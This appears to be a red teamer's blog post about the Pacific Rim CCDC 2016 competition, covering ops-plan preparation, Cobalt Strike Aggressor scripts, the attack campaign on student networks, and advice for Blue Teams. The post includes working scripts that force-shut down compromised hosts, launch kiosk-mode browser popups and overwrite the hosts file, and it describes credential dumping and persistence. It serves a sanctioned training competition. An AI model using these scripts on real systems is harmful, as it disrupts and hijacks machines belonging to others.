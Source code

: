 ```yaml
---
layout: post
title: Red Teaming for Pacific Rim CCDC 2016
summary: Preparation, Automation, Aggressor Scripts, and thoughts about 2016's Pacific Rim CCDC. 
tags:
- ccdc
- cobalt strike
- aggressor
---
```


Six weeks ago I had the opportunity to Red Team for [Pacific Rim CCDC](https://www.prccdc.org/). I love doing this competition because it gives me a chance to do things one would never be allowed to do on a real network and it forces me think about a different set of problems than a pentest or red team engagement. In this post I will discuss my thoughts and experiences before, during, and after this year's competition. 

# Preparation

[Last year]({{site.baseurl}}/2015-04-15-how-i-prepared-to-red-team-at-prccdc-2015/) I made a few goals for myself, mostly centered around preparation. About a month before the competition some friends and I collaborated to prepare for the competition.

## Operations Plan
The first piece of preparation is making an Operations Plan. The Ops Plan is a runbook of sorts containing all of the functionality we want to be able to execute during the competition. For each action or attack we listed out copy/paste commands, workflows, and/or tool modules. The goal is to minimize the amount of searching required during the competition. 

I've uploaded a sample from our Ops Plan to GitHub [here](https://github.com/bluscreenofjeff/CCDC-Scripts/blob/master/OpsPlan2016.txt). Shoutout to [@sw4mp_f0x](https://twitter.com/sw4mp_f0x), [@beyondnegative](https://twitter.com/beyondnegative), [@ahayden](https://twitter.com/ahayden), and [@primarytyler](https://twitter.com/primarytyler) for working on prep with me.


## Automation
Once we had a foundational Ops Plan in place, the next step was to automate as many of the functions as possible. The competition is frenetic from start to finish, so the ability to execute attacks quickly is critical. The primary attack platform I planned on using was [Cobalt Strike](https://www.cobaltstrike.com/), with [Powershell Empire](http://www.powershellempire.com/) as a secondary platform. 

Cobalt Strike offers an extremely powerful built-in scripting language: [Aggressor](https://www.cobaltstrike.com/help-scripting). Versions of Cobalt Strike prior to 3.0 used [Cortana](http://www.advancedpentest.com/help-scripting-cortana) script, which is incompatible with Aggressor. This was my first foray into using Aggressor script and I am very happy that I dove in. Aggressor scripts provide the ability to extend Cobalt Strike's functionality and GUI with built-in commands as well as using the [Sleep](http://sleep.dashnine.org/manual/) language directly. Since Sleep allows Java objects to be incorporated into scripts, the usage options are nearly limitless.

### Shutdown
After reading Raphael Mudge's resources on Aggressor and Sleep (linked below), I started easy with a CCDC equivalent of *Hello World*: shutting down all selected boxes. 

```perl
popup beacon_bottom {
	menu "Lulz" {
		item "Shutdown Host" {
			prompt_confirm("Are you SURE you want to bounce the box(es)?", "Confirm", lambda({
				blog(@ids,"shutting down");
				bshell(@ids, "shutdown /s /f /t 00 -d up:125:1");
			}, @ids => $1));
		}
	}
}
```
Lines 1-3 configure the GUI, placing the context menu (right click) item *Shutdown Host* under a parent menu of *Lulz*. Lines 4-7 prompt the user for confirmation to shut down all hosts. If the user selects OK, all hosts are issued the shell command `shutdown /s /f /t 00 -d up:125:1`.

### Internet Explorer Popup
Last year we launched Internet Explorer in kiosk mode to Justin Bieber's homepage to spread some Bieber Fever to the Blue Teams. For this year, I wanted to automate this and be able to quickly change the URL Internet Explorer opens.

```perl
item "IE Kiosk Popup" {
		prompt_text("What site do you want to pop up?", "https://google.com", lambda({
			binput(@ids,"C:\\Progra~1\\Intern~1\\iexplore.exe -k $1");
			bshell(@ids, "C:\\Progra~1\\Intern~1\\iexplore.exe -k $1");
		}, @ids => $1));
}
```
To include this within the *Lulz* context menu parent, simply insert this code before the closing menu curly bracket, like this:

```perl
popup beacon_bottom {
	menu "Lulz" {		
		item "IE Kiosk Popup" { 
			CODE GOES HERE
		}
		item "Shutdown Host" { 
			CODE GOES HERE
		}
	}
}
```

### Host File Stomp
Blue Teams and Red Teams alike use the internet during the competition, researching how to remediate vulnerabilities, looking up that default credential for the router, the list goes on. The difference is that ideally the Blue Team's hosts are owned in multiple ways, so why not use that to our advantage to slow the research efforts? This script stomps the target(s) host file with a selected file and clears the DNS cache.

```perl
item "Replace Host File" {
	prompt_file_open("Choose a file to replace the current host file:", "hosts.txt", false, lambda({
		bcd(@ids,"c:\\windows\\system32\\drivers\\etc");
		brm(@ids,"hosts");
		blog(@ids,"Uploading file $1 to c:\\windows\\system32\\drivers\\etc\\hosts");
		bupload(@ids,$1);
		bshell(@ids, "ipconfig /flushdns");
		blog(@ids,"File uploaded and DNS flushed. Done!");
	}, @ids => $1));
}
```

Line 2 prompts the user for a file. Once selected, the file is assigned the `$1` variable and the lambda function is evaluated. The lambda function is used to evaluate the lines within the parenthesis inline, lines 4 - 9 in this case. Those lines handle the removal of the current host file, upload of the selected file, and flushing of the hosts' DNS. 

### Script Files

I've uploaded these and a couple other scripts to my GitHub repo for [Aggressor scripts](https://github.com/bluscreenofjeff/AggressorScripts). These examples hopefully provide enough info to get your mind turning about other devious things you can cook up before next year's competition.

Having the ability to write Aggressor scripts to automate specific Red Team functions during the competition can be a real lifesaver. 

### Aggressor Script Resources:

* [Aggressor Script Intro](https://www.cobaltstrike.com/help-scripting)
* [Aggressor Script Documentation](https://www.cobaltstrike.com/aggressor-script/index.html)
* [My Cobalt Strike Scripts from NECCDC -- Raphael Mudge](http://blog.cobaltstrike.com/2016/03/16/my-cobalt-strike-scripts-from-neccdc/)
* [Cobalt Strike 3.1 - Scripting Beacons -- Raphael Mudge](http://blog.cobaltstrike.com/2015/12/02/cobalt-strike-3-1-scripting-beacons/)
* [Real-Time Feed of Red Team Activity -- Raphael Mudge](http://blog.cobaltstrike.com/2016/01/13/real-time-feed-of-red-team-activity/)
* [Sleep Manual](http://sleep.dashnine.org/manual/)


# The Competition

This year my friend [@sw4mp_f0x](https://twitter.com/sw4mp_f0x) and I were on the Windows Meta Team together, which means we attacked every team's Windows boxes in effort to spread equal *love* to everyone. We both have competed together before, but not against every team; it was an exciting challenge. 

As soon as the competition started there was a mad dash for all teams to find initial access points. To do this we made up IP lists with all hosts for all teams and configured different initial access scripts (such as in Metasploit) to be ready for when new credentials were received. Nothing beats seeing those first few Beacons come rolling in at the start of the day. Once access started getting established it was critical to drop persistence as quickly as possible on as many hosts as possible. We used primarily scripted Aggressor to drop persistence. We came prepared with a few of these scripts but ended up making a few new ones on the fly and at the hotel at night.

With a baseline established, the name of the game was credential management. We needed to keep the credentials fresh and ready to go. With 12 teams and dozens of users per domain, this was not an easy task. In an environment like this (see: not trying to be quiet at all), I like to err on the side of dumping credentials and hashes now just in case I need them later. So once I compromised a domain controller a hashdump wasn't too far behind. You can imagine how Cobalt Strike's credential store looked. While this didn't pose an issue for some hosts, there were hosts present on all teams that shared IP addresses. This meant that any given credential on one of those hosts could belong to one or 12 different teams. Not ideal. 

Overall being on the Windows Meta Team was a challenge and a blast. I came away from the competition having learned some new tricks (like running *explorer.exe* on a sticky keys cmd prompt to use the GUI) and more ideas for both next year's competition and real life tests.

# After the Ruckus

The Blue Team debrief is particularly fun. Throughout the competition I find myself wondering what the Blue Team thinks of a particular attack or annoyance. Wondering if the defenders even know which systems we've compromised. The debrief is the time to answer a lot of those questions. I was able to speak with a few teams during the debrief, which was great.

Here are some of the key points and suggestions I made to Blue Teams:

* Become familiar with Red Team tactics. Knowing the pathways an attacker may try to get into your network will help you block those paths.
* Automate as much as you can. If the Red Team has a script to break something, have a script to fix it. Make sure you follow the rules about not using private scripts.
* Change passwords FREQUENTLY. There were accounts whose credentials didn't change once throughout the competition.
* Disable any account that's not needed or off-limits. If you aren't using built-in accounts, disable them all.
* Remove admin rights from any user or group that doesn't explicitly require that access. Given the size of the Blue Team's network, it may make sense to remove/disable Domain Admin rights entirely on the domain and explicitly assign rights on a per-host basis. For example, perhaps the Blue Team decides to disable all administrative groups in the domain and rely on local accounts with rotating unique passwords per-host. 
* Audit admin rights, account statuses, and new accounts (local and domain) throughout the competition.

# Closing Thoughts

The CCDC competition is a lot of fun. It's thrilling to be able to try attacks or annoy users in ways that are not fit for a production network. Doing that exercises a different part of your brain and hopefully conjure up some ideas that are suitable for real world testing. I can't wait for next year.
